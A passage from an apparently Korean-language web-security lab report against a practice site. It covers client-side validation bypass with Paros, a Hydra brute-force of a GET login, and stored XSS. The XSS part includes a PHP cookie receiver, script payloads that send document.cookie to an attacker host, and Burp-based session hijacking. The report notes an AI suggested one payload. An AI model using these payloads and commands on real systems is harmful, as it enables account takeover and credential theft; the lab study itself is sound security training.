이 결과로 `Trap response`를 이용한 JavaScript 제거 방식과 `Trap request`를 이용한 parameter 직접 조작 방식이 모두 성공했다는 점을 확인했다. 또한 계정 저장 단계에서도 일부 필수값 누락을 차단하지 못했다. DB 테이블 구조 자체는 SQL Injection 단계에서 별도로 확인한다.

## 4. 증거 - 클라이언트 검증 우회

| 증거                                   | 설명                                                                                                             |
| ------------------------------------ | -------------------------------------------------------------------------------------------------------------- |
| ![[Pasted image 20260529185851.png]] | Camel 회원가입 화면에서 주민등록번호 입력 규칙이 문제로 드러난 화면                                                                       |
| 회원가입 페이지 source 발췌                   | `jumin1()`, `jumin()`, `mem_jumin1`, `mem_jumin2`, `check_jumin`, `pop_member_OK.asp`, `member_form.asp` 흐름 확인 |
| Paros Trap response 결과 HTML          | `mem_jumin='123123-1234321'`, `mem_name='ㅁㄴㅇㄹ'` 값이 다음 페이지 HTML에 반영됨                                            |
| 조작 후 결과 화면                           | ![[Pasted image 20260530220118.png]]                                                                           |
| Paros Trap request 계정 저장 요청          | `members_save.asp`로 보내는 parameter에서 짧은 비밀번호와 빈 필수값을 직접 전송함                                                    |
| 후속 실습용 계정 생성                         | `HACKER`, `hacker / 1` 계정 생성 확인                                                                                |
| 회원정보 수정 화면                           | ![[Pasted image 20260531185159.png]]                                                                           |

## 5. 판정

| 항목                                | 상태          |
| --------------------------------- | ----------- |
| 주민등록번호 검증이 브라우저 JavaScript에 존재함   | 확인됨         |
| 중복 확인 요청 대상이 `pop_member_OK.asp`임 | 확인됨         |
| 주민번호 확인 후 제출 대상이 `member_form.asp`임 | 확인됨         |
| 최종 계정 저장 대상이 `members_save.asp`임 | 확인됨         |
| Paros 우회 후 비정상 값이 다음 페이지까지 전달되는지 | 확인됨         |
| `Trap response`로 JavaScript 검증을 제거할 수 있는지 | 확인됨         |
| `Trap request`로 계정 저장 parameter를 직접 조작할 수 있는지 | 확인됨         |
| 일부 필수값을 비운 상태로 계정을 생성할 수 있는지      | 확인됨         |
| 회원정보 수정 화면에서 누락한 정보가 빈 상태인지       | 확인됨         |
| DB 테이블 구조                           | SQL Injection 단계에서 별도 확인 |

> [!note] 현재 판정
> Camel 회원가입 화면의 주민등록번호 및 필수 입력값 검증은 브라우저 JavaScript에서 수행되었다. Paros `Trap response`로 JavaScript 검증 block을 제거하자 비정상 주민등록번호가 다음 회원가입 페이지까지 전달되었다. 이어서 `Trap request`에서 `members_save.asp` 요청의 parameter를 직접 조작하자, 비정상 주민등록번호와 일부 필수 정보가 누락된 `hacker / 1` 계정을 생성할 수 있었다. 회원정보 수정 화면에서도 누락한 정보가 빈 상태로 표시되므로, 계정 저장 단계에서 해당 누락을 차단하는 서버 측 검증은 관찰되지 않았다. 따라서 두 가지 방식의 **클라이언트 검증 우회**가 모두 성공한 것으로 판정한다.

## 6. 남은 확인

- 이 항목의 추가 실습: 없음
- Paros 우회 방식 1: `Trap response`로 실패 시 `return`하는 JavaScript 검증 block을 제거하고, 정상 흐름인 `window.open()` / `document.form.submit()`은 유지함
- Paros 우회 방식 2: `Trap request`로 `members_save.asp`에 전달되는 parameter를 직접 조작함
- 다음 단계로 넘길 확인: DB 테이블 구조는 SQL Injection 단계에서 별도 확인
- 방어 관점: 주민번호와 필수 입력값 검증은 브라우저가 아니라 서버에서 최종 수행해야 함

# 2. BruteForcing(Hydra)

## 목표

> [!summary] 확인할 것
> Camel 로그인 기능의 요청 구조와 실패 응답을 분석하고, Hydra가 반복적인 비밀번호 대입을 수행할 수 있는 조건이 갖추어져 있는지 확인한다.  

> [!success] 최종 결과
> Hydra로 4자리 숫자 비밀번호 후보를 반복 대입한 결과, 실습용 계정 `wkddnsgh`의 비밀번호 `1234`를 탐지했다. 탐지 시점까지 계정 잠금, CAPTCHA, 응답 지연 또는 반복 요청 차단이 공격을 막는 현상은 관찰되지 않았다.

## 기준 자료

- 기준 자료: [Hydra 로그인 Brute Force 실습](https://github.com/Unoh03/Obsi2/blob/main/10_%ED%95%99%EC%8A%B5%20%EB%85%B8%ED%8A%B8/%EC%8B%9C%EC%8A%A4%ED%85%9C%EB%B3%B4%EC%95%88/%EC%9B%B9%EB%B3%B4%EC%95%88/Hydra%20%EB%A1%9C%EA%B7%B8%EC%9D%B8%20Brute%20Force%20%EC%8B%A4%EC%8A%B5.md)
- 참고할 부분: 로그인 요청의 endpoint, method, parameter 이름과 실패 응답 기준 문자열을 먼저 확인한 뒤 Hydra 명령을 구성하는 흐름.
- Camel에서 다시 확인할 것: 기존 실습과 달리 Camel 로그인은 어떤 방식으로 인증정보를 전달하는지, 실패·성공 응답을 Hydra가 구분할 수 있는지, 반복 로그인 시도를 제한하는 방어가 존재하는지 여부.

## 1. 분석

### 대상 선정 배경

Brute Forcing은 로그인 기능에 ID와 Password 후보를 반복적으로 입력하고, 실패 응답과 성공 응답의 차이를 이용해 올바른 조합을 판별하는 공격이다.

기존 실습에서는 `care` 환경의 로그인 기능을 대상으로 `POST` 요청과 `history` 문자열을 이용해 Hydra를 구성했다. 이번에는 Camel 로그인 페이지의 source와 실제 요청/응답을 다시 확인하여, Camel에 맞는 요청 구조와 판별 기준을 찾는다.

### 대상 화면과 요청

| 항목 | 값 |
|---|---|
| 화면 | Camel 회원 로그인 화면 |
| 로그인 화면 URL | `/login/login.asp?ba=search` |
| 로그인 처리 endpoint | `/login/login_chk.asp` |
| method | `GET` |
| ID parameter | `id` |
| Password parameter | `pass` |
| 추가 parameter | `ba=search`, `re_url=` |
| 대상 IP | `172.16.0.80` |
| 사용 도구 | Paros, 브라우저, Hydra |

### 로그인 form source

Camel 로그인 페이지 source에는 다음 form이 존재한다.

```asp
<form name=form action="login_chk.asp">
<input type="hidden" name='ba' value='search'>
<input type="hidden" name='re_url' value=''>
<input type="text" name="id" size="16" class="box">
<input type="password" name="pass" size="16" class="box" value="">
<a href='javascript:send();'>...</a>
</form>
```

로그인 버튼이 호출하는 `send()` 함수는 ID와 Password가 비어 있는지만 검사한 뒤 form을 제출한다.

```javascript
function send(){	//회원 로그인
	if(document.form.id.value==""){
		alert("아이디를 입력해주세요")
		document.form.id.focus();
		return
	}
	if(document.form.pass.value==""){
		alert("아이디를 입력해주세요")
		document.form.pass.focus();
		return
	}
	document.form.submit();
}
```

`form` 태그에 `method="post"`가 지정되어 있지 않다. HTML form은 method를 생략하면 기본적으로 `GET`으로 제출되며, 실제 Paros 요청에서도 로그인 정보가 URL query parameter로 전달되는 것을 확인했다.

### 기존 실습과 Camel의 차이

|구분|기존 Hydra 실습|Camel 미니 프로젝트|
|---|---|---|
|처리 endpoint|`/member/loginModel.php`|`/login/login_chk.asp`|
|method|`POST`|`GET`|
|ID parameter|`id`|`id`|
|Password parameter|`pw`|`pass`|
|Hydra 모듈|`http-post-form`|`http-get-form`|
|실패 판별 문자열|`history`|`location.replace` 후보|
|인증정보 전달 위치|POST body|URL query string|

> [!important] 추가로 확인된 문제  
> Camel 로그인은 ID와 Password를 `GET` query parameter로 전달한다. 따라서 Brute Force 가능성과 별개로, 인증정보가 URL에 노출되어 브라우저 기록, proxy 기록, 서버 access log 등에 남을 수 있는 구조다.



### 실패 로그인 요청과 응답

틀린 비밀번호 `12342`로 로그인했을 때 Paros에서 확인한 요청은 다음과 같다.

```http
GET http://172.16.0.80/login/login_chk.asp?ba=search&re_url=&id=wkddnsgh&pass=12342 HTTP/1.1
Host: 172.16.0.80
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36 Edg/95.0.1020.53 Paros/3.2.13
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.0.80/login/login.asp?ba=search
Accept-Language: ko,en;q=0.9,en-US;q=0.8
Cookie: ASPSESSIONIDSASBBABT=<REDACTED>
```

실패 응답은 EUC-KR 문자열이 깨져 보였지만, alert 내용은 비밀번호 불일치를 의미하며, 로그인 화면으로 되돌리는 `location.replace()`가 포함되어 있었다.

```javascript
<script language="javascript">
	alert("비밀번호가 일치하지 않습니다. \n다시한번 확인하여 주십시오.");
	location.replace("/login/login.asp?ba=search")
</script>
```

Hydra는 성공한 로그인과 실패한 로그인을 구분할 문자열이 필요하다. 이번 Camel에서는 실패 응답에 포함되는 `location.replace`를 실패 판별 문자열 후보로 사용할 수 있다.

### 정상 로그인 요청과 응답

정상 비밀번호 `1234`로 로그인했을 때의 요청은 다음과 같다.

```http
GET http://172.16.0.80/login/login_chk.asp?ba=search&re_url=&id=wkddnsgh&pass=1234 HTTP/1.1
Host: 172.16.0.80
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36 Edg/95.0.1020.53 Paros/3.2.13
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.0.80/login/login.asp?ba=search
Accept-Language: ko,en;q=0.9,en-US;q=0.8
Cookie: ASPSESSIONIDSASBBABT=<REDACTED>
```

정상 로그인 응답에서는 실패 시 나타난 JavaScript alert와 `location.replace("/login/login.asp?ba=search")`가 보이지 않았고, 대신 다음 응답 본문이 확인되었다.

```html
<head><title>Object moved</title></head>
<body><h1>Object Moved</h1>This object may be found <a HREF="ãÀ» ¼ö ÀÖ½À´Ï´Ù.</body>
```

후속 SQL Injection 분석에서 정상 로그인 Response Header의 `Location: /index.asp`도 확인했다. 실패 응답에만 존재하는 `location.replace` 문자열은 Hydra의 실패 판별 기준으로 사용할 수 있다.

### 분석 메모

- 관찰한 사실: Camel 로그인은 `GET /login/login_chk.asp` 요청으로 수행되며, 인증정보는 `id`, `pass` query parameter에 포함된다.
    
- 관찰한 사실: 실패 로그인 응답에는 `location.replace("/login/login.asp?ba=search")`가 포함된다.
    
- 관찰한 사실: 정상 로그인 응답은 실패 alert 대신 `Object Moved` 응답을 반환한다.
    
- 수상한 지점: 로그인 비밀번호가 URL query string에 포함되어 전달된다.
    
- 공격 가능성: 실패 응답의 `location.replace` 문자열을 기준으로 Hydra가 비밀번호 후보를 반복 대입하고 성공 여부를 구분할 수 있다.
    
- 관찰 범위: 비밀번호 탐지 시점까지 공격을 막는 계정 잠금, CAPTCHA, 응답 지연 또는 반복 요청 차단은 확인되지 않았다.
    

## 2. 가설

> [!note] 가설  
> Camel 로그인 기능은 `GET` 요청의 `id`, `pass` parameter로 인증정보를 전달하고, 실패 응답에 `location.replace` 문자열을 반환한다. 따라서 Hydra의 `http-get-form` 모듈에서 `location.replace`를 실패 조건으로 사용하면, 준비한 비밀번호 후보군 중 정상 비밀번호를 탐지할 수 있을 것이다.

|근거|예상|
|---|---|
|로그인 form의 endpoint가 `login_chk.asp`임|Hydra 요청 대상은 `/login/login_chk.asp`가 됨|
|실제 로그인 요청이 `GET`으로 전송됨|`http-get-form` 모듈을 사용해야 함|
|입력 parameter가 `id`, `pass`임|`id=^USER^&pass=^PASS^` 형태로 후보값을 삽입 가능|
|실패 응답에 `location.replace`가 포함됨|`F=location.replace`를 실패 판별 조건으로 사용할 수 있음|
|정상 로그인 응답은 실패 응답과 다름|Hydra가 올바른 비밀번호를 구분할 가능성이 있음|

## 3. 실행

### 현재까지 수행한 절차

> [!success] 요청 구조 확인 완료
> 
> 1. Camel 로그인 페이지의 source를 확인했다.
>     
> 2. 로그인 form의 endpoint와 parameter 이름을 확인했다.
>     
> 3. 틀린 비밀번호 `12342`로 로그인 요청을 발생시켜 실패 응답을 확인했다.
>     
> 4. 정상 비밀번호 `1234`로 로그인 요청을 발생시켜 성공 응답과 실패 응답이 다름을 확인했다.
>     
> 5. 실패 응답의 `location.replace`를 Hydra 실패 판별 문자열 후보로 선정했다.
>     

### Hydra 실행

비밀번호 파일을 따로 만들지 않고, `-x 4:4:1` 옵션으로 네 자리 숫자 조합을 생성했다. `-t` 옵션은 지정하지 않아 Hydra의 기본 병렬 실행을 사용했다.

```bash
hydra -V -f \
  -l wkddnsgh \
  -x 4:4:1 \
  172.16.0.80 \
  http-get-form \
  '/login/login_chk.asp:ba=search&re_url=&id=^USER^&pass=^PASS^:F=location.replace'
```

|옵션 또는 값|의미|
|---|---|
|`-V`|시도하는 ID/Password 후보와 결과를 화면에 표시|
|`-f`|유효한 조합을 찾으면 실행 중지|
|`-l wkddnsgh`|테스트 대상 ID를 고정|
|`-x 4:4:1`|길이가 4인 숫자 비밀번호 후보를 생성|
|`172.16.0.80`|Camel 서버 주소|
|`http-get-form`|Camel 로그인 요청이 GET 방식이므로 사용|
|`/login/login_chk.asp`|로그인 처리 endpoint|
|`ba=search&re_url=&id=^USER^&pass=^PASS^`|실제 요청 parameter 구조|
|`F=location.replace`|실패 응답에 존재하는 문자열을 실패 기준으로 지정|

Hydra는 여러 후보를 병렬로 대입한 뒤 `wkddnsgh / 1234` 조합을 유효한 값으로 탐지했다.

```text
[80][http-get-form] host: 172.16.0.80   login: wkddnsgh   password: 1234
[STATUS] attack finished for 172.16.0.80 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

## 4. 증거 - Brute Forcing

| 증거              | 설명                                                                  |
| --------------- | ------------------------------------------------------------------- |
| 로그인 페이지 source  | `login_chk.asp`, `id`, `pass`, `ba`, `re_url` parameter 구조 확인       |
| 실패 로그인 Request  | `pass=12342` 입력 시 `GET /login/login_chk.asp?...` 형태로 인증정보가 전송됨      |
| 실패 로그인 Response | 비밀번호 불일치 alert와 `location.replace("/login/login.asp?ba=search")` 확인 |
| 정상 로그인 Request  | `pass=1234` 입력 시 동일 endpoint로 요청 전송                                 |
| 정상 로그인 Response | 실패 alert 대신 `Object Moved` 형태의 응답 확인                                |
| Hydra 실행 결과     | ![[Pasted image 20260531181505.png]]                                |

## 5. 판정

|항목|상태|
|---|---|
|로그인 endpoint가 `/login/login_chk.asp`임|확인됨|
|로그인 method가 `GET`임|확인됨|
|ID/PW parameter가 `id`, `pass`임|확인됨|
|비밀번호가 URL query string으로 전달됨|확인됨|
|실패 응답에 `location.replace`가 포함됨|확인됨|
|정상 로그인과 실패 로그인 응답이 구분됨|확인됨|
|Hydra 명령 구성에 필요한 정보 확보|확인됨|
|Hydra를 이용한 자동 비밀번호 탐지 성공|확인됨|
|계정 잠금·지연·CAPTCHA 등 자동화 방어|탐지 시점까지 효과적인 차단은 관찰되지 않음|

> [!note] 현재 판정
> Camel 로그인 기능은 `GET /login/login_chk.asp` 요청의 `id`, `pass` query parameter로 인증정보를 전달한다. 실패 로그인 응답의 `location.replace` 문자열을 판별 기준으로 사용해 Hydra를 실행한 결과, 실습용 계정 `wkddnsgh`의 비밀번호 `1234`가 탐지되었다. 따라서 Camel 로그인 기능은 반복적인 비밀번호 대입 공격에 취약한 것으로 판정한다.

## 6. 남은 확인

- 이 항목의 추가 실습: 없음
- 보강 가능 자료: 정상 로그인 Response Header의 `Location` 값
- 관찰 범위: 비밀번호 탐지 시점까지 공격을 막는 계정 잠금, CAPTCHA, 응답 지연 또는 반복 요청 차단은 확인되지 않음
- 방어 관점: 로그인 인증정보는 URL query string이 아니라 HTTPS가 적용된 요청으로 전달되어야 하며, 반복 로그인 시도에 대해서는 계정 잠금, 지연, CAPTCHA 또는 서버 측 탐지 정책이 필요하다.

# 3. XSS

## 목표

> [!summary] 확인할 것
> Camel 자유게시판의 본문 입력값이 저장된 뒤 다른 사용자의 브라우저에서 JavaScript로 실행되는지 확인한다.
>
> 이후 실행된 JavaScript로 Session Cookie를 외부 수신기에 전송하고, 탈취한 값을 재사용하여 로그인 상태를 가로챌 수 있는지도 확인한다.

> [!success] 최종 결과
> Camel 자유게시판에서 Stored XSS를 실행하고, 열람자의 Session Cookie를 Kali 수신기로 전송했다.
>
> 이후 Kali Firefox가 보내는 요청의 Cookie 헤더를 Burp `Match and replace`로 교체하자, 직접 로그인하지 않고도 실습용 피해자 계정 `ㅁㄴㅇㄹ`의 로그인 상태로 접근할 수 있었다.

## 기준 자료

- 기준 자료: [XSS를 이용한 Session Token 탈취 실습](https://github.com/Unoh03/Obsi2/blob/main/10_%ED%95%99%EC%8A%B5%20%EB%85%B8%ED%8A%B8/%EC%8B%9C%EC%8A%A4%ED%85%9C%EB%B3%B4%EC%95%88/%EC%9B%B9%EB%B3%B4%EC%95%88/XSS%EB%A5%BC%20%EC%9D%B4%EC%9A%A9%ED%95%9C%20Session%20Token%20%ED%83%88%EC%B7%A8%20%EC%8B%A4%EC%8A%B5.md)
- 참고할 부분: 입력값이 저장되거나 반사된 뒤 브라우저에서 HTML/JavaScript로 해석되는지 확인하는 방식.
- Camel에서 다시 확인할 것: 자유게시판 본문 출력 방식, Cookie 외부 전송 가능 여부, 탈취한 Session Cookie의 재사용 가능 여부.

## 1. 분석

### 대상 화면과 요청

| 항목 | 값 |
|---|---|
| 화면 | 자유게시판 글쓰기 |
| 글쓰기 화면 | `/board/index.asp?cmd=write&b_com=yes&gubun=free...` |
| 저장 endpoint | `/board/board_insert.asp` |
| method | `POST` |
| Content-Type | `multipart/form-data` |
| 주요 parameter | `info_title`, `info_name`, `info_pwd`, `info_content` |
| 사용 도구 | Kali Burp, 브라우저, Kali Apache/PHP |

### 관련 코드 또는 응답

```http
POST /board/board_insert.asp HTTP/1.1
Host: 172.16.0.80
Cookie: ASPSESSIONIDSASBBABT=<REDACTED>
Content-Type: multipart/form-data; boundary=...

...
Content-Disposition: form-data; name="info_title"

asdf
...
Content-Disposition: form-data; name="info_name"

HACKER
...
Content-Disposition: form-data; name="info_pwd"

<REDACTED_POST_PASSWORD>
...
Content-Disposition: form-data; name="info_content"

qwer
```

```html
<script language="javascript">
	location.replace("index.asp?cmd=list&b_com=yes&gubun=free&p_from=&w=&k=&sr=&page=1")
</script>
```

### 분석 메모

- 관찰한 사실:
  - 자유게시판 글쓰기 요청은 `POST /board/board_insert.asp`로 전송된다.
  - 본문은 `info_content` parameter에 담긴다.
  - 글이 등록되면 서버는 자유게시판 목록으로 이동시키는 JavaScript 응답을 반환한다.
  - `info_content`에 입력한 `<script>alert("XSS")</script>`가 저장된 게시글을 열었을 때 실행되었다.
  - 기존 Kali 수신기에 `testString`을 전송하자 `/var/www/html/cookie.txt`에 새 줄이 기록되었다.
  - 줄바꿈을 제거한 Cookie 전송 payload를 저장하고 게시글을 열자 Camel의 `ASPSESSIONID...`가 Kali 수신기에 기록되었다.
  - Kali Firefox가 보내는 Cookie 헤더를 탈취한 Session Cookie로 교체하자, 직접 로그인하지 않고도 실습용 피해자 계정 `ㅁㄴㅇㄹ`의 로그인 상태로 접근할 수 있었다.
- 수상한 지점: 게시판 본문을 출력할 때 HTML 특수문자를 이스케이프하지 않아 입력한 `<script>`가 문자열이 아니라 태그로 해석된다.
- 우회 또는 공격 가능성: 저장된 게시글을 다른 사용자가 열면 공격자가 넣은 JavaScript가 그 사용자의 브라우저에서 실행될 수 있다. 외부로 전송된 Session Cookie를 재사용하면 해당 사용자의 로그인 상태를 가로챌 수 있다.

## 2. 가설

> [!note] 가설
> Camel 자유게시판이 `info_content`를 필터링하거나 이스케이프하지 않고 출력한다면, 저장된 게시글을 열 때 XSS payload가 실행될 것이다.
>
> 이때 Session Cookie가 `document.cookie`로 읽힌다면 Kali의 Cookie 수신기로 전송할 수 있을 것이다.
>
> 탈취한 Session Cookie를 Kali Firefox의 요청에 주입하면, 직접 로그인하지 않고도 열람자의 로그인 상태를 재사용할 수 있을 것이다.

| 근거 | 예상 |
|---|---|
| 게시판 본문에 HTML을 입력할 수 있음 | 저장된 글을 열 때 브라우저가 태그를 해석함 |
| `<script>alert("XSS")</script>` 실행 확인 | 자유게시판에 Stored XSS가 존재함 |
| Kali의 `getCookie.php`에 `testString` 기록 확인 | Cookie 수신기 자체는 동작함 |
| Camel의 Session Cookie가 Kali 수신기에 기록됨 | 탈취 Cookie를 요청에 주입하여 로그인 상태를 재사용할 수 있음 |

## 3. 실행

### 3-1. Stored XSS 확인

자유게시판의 본문에 아래 payload를 저장하고 게시글을 다시 열었다.

```html
<script>alert("XSS")</script>
```

브라우저에서 `XSS` alert가 실행되었다. 입력값이 저장된 뒤 게시글을 열람할 때 실행되었으므로 **Stored XSS**이다.

### 3-2. Cookie 수신기 확인

이전에 Kali에 만들어 둔 Cookie 수신기를 그대로 사용하였다.

```php
<?php
	$fp = fopen("cookie.txt", "a");
	fputs($fp, "Cookie: " . $_GET['cookie'] . "\n");
	fclose($fp);
?>
```

```bash
sudo tail -f /var/www/html/cookie.txt
```

수신기에 `testString`을 전송하자 새 줄이 추가되었다.

```text
Cookie: testString
Cookie: <REDACTED_OLD_SESSION_TOKEN>
...
Cookie: testString
```

> [!warning] 캡처 이미지 마스킹 필요
> 현재 터미널 캡처에는 이전 실습의 Session Cookie가 노출되어 있다. 최종 제출 전 해당 값을 가린 이미지로 교체한다.

### 3-3. Session Cookie 전송 시도

처음에는 자유게시판 본문에 아래처럼 여러 줄로 작성한 payload를 저장하였다.

```html

<script>
i.src="http://172.16.0.200/getCookie.php?cookie="+document.cookie
</script>
```

`img.src`에 주소를 대입하면 브라우저는 해당 주소로 요청을 보낸다. 따라서 게시글을 열람한 사용자의 브라우저에서 `document.cookie`를 읽을 수 있다면 Kali의 `getCookie.php`로 값이 전달된다.

그러나 이 payload로는 Kali 수신기에 새로운 Session Cookie가 기록되지 않았다.



### 3-4. Session Cookie 전송 트러블슈팅

`Stored XSS`와 Kali 수신기는 각각 동작했지만, 처음 작성한 여러 줄 payload로는 두 구간이 연결되지 않았다.

```text
확인됨: 게시글 열람 -> alert("XSS") 실행
확인됨: testString 직접 전송 -> Kali cookie.txt 기록
문제 발생: 여러 줄 Cookie 전송 payload 저장 -> Kali cookie.txt에 새 기록 없음
```

#### 1. Paros로 저장된 본문 확인

Paros에서 저장된 게시글의 응답을 확인하자, 줄바꿈 위치마다 `<br>`이 들어가 있었다.

```html
<br><script><br>i.src="http://172.16.0.200/getCookie.php?cookie="+document.cookie<br></script>
```

AI는 `<script>` 내부의 `<br>`이 줄바꿈 태그가 아니라 JavaScript 코드로 해석되어 문법 오류를 일으켰을 가능성을 지적했다.

#### 2. AI가 제안한 단일 행 payload로 가설 검증

먼저 `new Image()`를 사용하는 아래 단일 행 payload로 고정 문자열 `xssTest`를 전송해 보았다.

```html
<script>new Image().src="http://172.16.0.200/getCookie.php?cookie=xssTest&t="+Date.now()</script>
```

Kali의 `cookie.txt`에 `Cookie: xssTest`가 새로 기록되었다. 게시글에서 실행된 JavaScript가 Kali 수신기까지 요청을 보낼 수 있다는 뜻이다.

#### 3. 기존 payload에서 줄바꿈 제거

마지막으로 기존 payload의 동작 방식은 유지하고 엔터만 모두 제거하였다.

```html
<script>i.src="http://172.16.0.200/getCookie.php?cookie="+document.cookie</script>
```

게시글을 열자 Kali 수신기에 Camel의 Session Cookie가 기록되었다.

```text
Cookie: xssTest
Cookie: ASPSESSIONIDSASBBABT=<REDACTED>
Cookie: ASPSESSIONIDSASBBABT=<REDACTED>
```

| 순서 | 확인 방법 | 결과 | 판정 |
|---|---|---|---|
| 1 | `<script>alert("XSS")</script>` 저장 후 열람 | `XSS` alert 실행 | Stored XSS 자체는 정상 |
| 2 | Kali 수신기에 `testString` 직접 전송 | `Cookie: testString` 기록 | PHP 수신기와 파일 기록은 정상 |
| 3 | `new Image()`를 사용하는 단일 행 payload로 `xssTest` 전송 | `Cookie: xssTest` 기록 | 게시글에서 실행된 JavaScript가 Kali에 요청을 보낼 수 있음 |
| 4 | 기존 payload에서 줄바꿈만 제거하고 다시 저장 | `ASPSESSIONIDSASBBABT=<REDACTED>` 기록 | Camel Session Cookie 전송 성공 |

> [!success] 원인 확인
> 게시판이 본문의 줄바꿈을 `<br>`로 변환하면서 여러 줄 `<script>` 내부에도 `<br>`이 삽입되었다. JavaScript 문법이 깨져 요청이 전송되지 않았다.
>
> payload를 단일 행으로 작성하자 Session Cookie가 Kali 수신기에 기록되었다.

#### 최종 흐름



### 3-5. Burp로 Session Cookie 재사용

Kali Firefox가 Camel로 보내는 요청의 Cookie 헤더를 Burp `Match and replace`로 교체하여, 탈취한 Session Cookie를 재사용할 수 있는지 확인하였다.

#### Match and replace 설정

```text
Proxy -> Match and replace
```

| 항목 | 값 | 의미 |
|---|---|---|
| Type | `Request header` | 서버로 전송되는 요청 헤더를 수정 |
| Match | `^Cookie:.*$` | `Cookie:`로 시작하는 헤더 한 줄 전체를 찾음 |
| Regex match | 체크 | Match 값을 정규식으로 해석 |
| Replace | `Cookie: ASPSESSIONIDSASBBABT=<REDACTED_CAPTURED_SESSION_TOKEN>` | 기존 Cookie 헤더를 탈취한 값으로 교체 |

> [!tip] `^Cookie:.*$`에서 점을 빼면 안 되는 이유
> `.*`는 임의의 문자가 0개 이상 이어지는 부분을 뜻한다. 따라서 `^Cookie:.*$`는 Cookie 값까지 포함한 헤더 한 줄 전체를 찾는다.
>
> `^Cookie:*$`는 콜론 `:`만 반복되는 문자열을 찾으므로 실제 Cookie 헤더와 일치하지 않는다.

#### 시행착오

처음에는 로그인 상태가 바로 바뀌지 않아 다음 순서로 점검했다.

| 시도 | 결과 | 정리 |
|---|---|---|
| Burp와 Kali Firefox를 종료한 뒤 다시 실행 | 즉시 원인을 확정하지 못함 | 도구 상태를 초기화하고 다시 확인 |
| `Ctrl + Shift + Delete`로 브라우저 Cookie와 저장 데이터를 삭제 | 최초 접속만으로는 피해자 상태가 보이지 않음 | Cookie 헤더가 없는 최초 요청은 교체할 대상도 없음 |
| 정규식에서 점을 제거하여 `^Cookie:*$` 시도 | 올바른 해결책이 아님 | 실제 Cookie 값을 포함하려면 `^Cookie:.*$`가 맞음 |
| `http://172.16.0.80` 접속 후 새로고침 | 실습용 피해자 계정 `ㅁㄴㅇㄹ` 상태로 접근됨 | 새로 발급된 브라우저 Cookie 헤더가 다음 요청부터 Burp를 통과하며 교체됨 |

마지막 행의 동작은 아래 흐름으로 해석할 수 있다.

```text
브라우저 Cookie 삭제
-> 최초 접속 요청에는 Cookie 헤더가 없음
-> Camel이 새로운 브라우저 Session Cookie를 발급
-> 새로고침 요청에는 Cookie 헤더가 포함됨
-> Burp가 해당 헤더를 탈취한 Session Cookie로 교체
-> Camel이 피해자 로그인 상태로 응답
```

#### Burp 관측 지점 혼동

Session Hijacking은 성공했지만, Burp 화면에 보이는 Cookie 값이 Kali 수신기에서 확인한 값과 달라 보여 처음에는 결과를 의심했다.

원인은 Burp HTTP history의 요청 표시 방식이었다.

| Burp 화면 | 의미 |
|---|---|
| `Original request` | Kali Firefox가 Burp에 보낸 원본 요청. 브라우저가 가진 Session Cookie가 보임 |
| `Auto-modified request` | Burp가 `Match and replace`를 적용한 뒤 Camel로 전달한 요청. 탈취한 Session Cookie가 보임 |

Burp는 브라우저의 Cookie 저장소를 직접 바꾸지 않는다. 서버로 전송되는 요청 헤더만 중간에서 교체한다. 따라서 두 화면의 Cookie 값이 다른 것은 정상이다.

> [!success] Session Hijacking 확인
> `Auto-modified request`에서 Cookie 헤더가 탈취한 Session Cookie로 교체된 것을 확인했다.
>
> Kali Firefox에서 직접 로그인하지 않았는데도 Camel이 실습용 피해자 계정 `ㅁㄴㅇㄹ`의 로그인 상태로 응답했다. 따라서 Session Hijacking이 가능하다.

#### 전체 흐름



## 4. 증거 - XSS

| 증거                                   | 설명                                                                                                                  |
| ------------------------------------ | ------------------------------------------------------------------------------------------------------------------- |
| ![[Pasted image 20260531220648.png]] | 처음 시도한 여러 줄 Session Cookie 전송 payload를 입력한 화면                                                                       |
| ![[Pasted image 20260531220632.png]] | 처음 시도한 여러 줄 payload를 저장한 게시글을 열람한 화면                                                                                |
| ![[Pasted image 20260531221557.png]] | 저장된 `<script>alert("XSS")</script>`가 실행된 화면. Stored XSS의 직접 증거                                                      |
| ![[Pasted image 20260531221624.png]] | Kali 수신기에 `testString`이 새로 기록된 화면. 최종 제출 전 과거 Session Cookie 마스킹 필요                                                 |
| ![[Pasted image 20260531223610.png]] | 단일 행 payload로 Camel Session Cookie가 기록된 Kali 터미널 화면. 최종 제출 전 Session Cookie 마스킹 필요                                  |
| ![[Pasted image 20260531230601.png]] | Kali Firefox에서 직접 로그인하지 않고도 실습용 피해자 계정 상태로 접근한 화면. 하단에는 `Original request`가 표시되어 있음. 최종 제출 전 Session Cookie 마스킹 필요  |
| ![[Pasted image 20260531231649.png]] | Burp HTTP history에서 `Original request`와 `Auto-modified request`를 구분하여 볼 수 있음을 확인한 화면. 최종 제출 전 Session Cookie 마스킹 필요 |
| ![[Pasted image 20260531231711.png]] | `Auto-modified request`에서 Cookie 헤더가 탈취한 값으로 교체된 화면. 최종 제출 전 Session Cookie 마스킹 필요                                  |


## 5. 판정

> [!success] Stored XSS 확인
> Camel 자유게시판은 본문 입력값을 안전한 문자열로 처리하지 않는다. 저장된 게시글을 열람하면 입력한 JavaScript가 실행되므로 **Stored XSS가 가능하다.**
>
> Kali의 Cookie 수신기도 `testString` 기록으로 정상 동작을 확인했다.

> [!success] Session Cookie 외부 전송 확인
> 줄바꿈을 제거한 단일 행 payload를 저장하고 게시글을 열자 Camel의 `ASPSESSIONID...`가 Kali 수신기에 기록되었다.
>
> 따라서 Stored XSS를 이용하여 열람자의 Session Cookie를 외부 서버로 전송할 수 있음을 확인했다.
> 해당 Session Cookie는 `document.cookie`를 통해 JavaScript에서 접근할 수 있는 상태였다.

> [!success] Session Hijacking 확인
> Burp `Match and replace`를 이용해 Kali Firefox가 보내는 Cookie 헤더를 탈취한 Session Cookie로 교체했다.
>
